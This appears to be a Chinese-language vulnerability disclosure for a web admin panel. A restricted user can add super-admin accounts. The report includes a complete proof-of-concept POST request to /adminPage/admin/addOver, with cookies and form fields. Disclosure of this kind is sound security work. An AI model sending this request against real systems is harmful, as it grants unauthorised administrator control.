




管理员管理处可以受限用户越权添加超管账户等操作，造成权限提升。

## 漏洞复现

以admin账户新增111（受限用户）与admin（超管）

登录111（普通用户）后，可见没有管理员管理页面

输入poc

**POST** /adminPage/admin/addOver **HTTP/1.1**

**Host**: 192.168.8.121:8080

Accept-Encoding: gzip, deflate

**Cookie**: **SOLONID**=**439ca6e246044c969dd6ee1fd45c70b9**; **JSESSIONID**=**__u0nVg1kvL_EaRs7rXYFnbY0bsUesncWhRcswBd**

Accept-Language: zh-CN,zh;q=0.9

Upgrade-In**secure-Requests**: 1

**User-Agent**: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

**Referer**: http://192.168.8.121:8080/adminPage/remote

**Content-Type**: **application/x-www-form-urlencoded**

**id**=&**name**=**1234**&**api**=**false**&**type**=**0**&**parentId**=

可见成功创建管理员账户

